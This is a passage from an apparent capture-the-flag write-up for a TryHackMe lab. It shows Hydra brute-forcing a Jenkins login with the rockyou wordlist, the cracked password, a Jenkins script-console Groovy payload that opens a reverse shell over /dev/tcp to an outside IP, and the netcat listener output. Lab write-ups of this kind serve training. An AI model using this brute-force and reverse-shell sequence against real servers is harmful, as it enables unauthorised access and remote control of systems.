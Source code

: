Now Hydra:
hydra 127.0.0.1 -s 8090 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P share/wordlists/rockyou.txt
```bash
hydra -l admin -P share/wordlists/rockyou.txt 127.0.0.1 -s 8090 http-form-post "/j_acegi_security_check HTTP/1.1:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:Error"
```

We get the password: `spongebob`.

Now we can log in:

<img src="/assets/images/THM/Internal/4.png" width="80%">

In the preferences we can find a script console. I found a bash payload for Jenkins:
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.18.7.222/6666;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Next start listener on port 6666 and run the script:
```
vladislav@Mac ~ % netcat -lvp 6666
Connection from 10.10.209.187:45144
whoami
jenkins
```
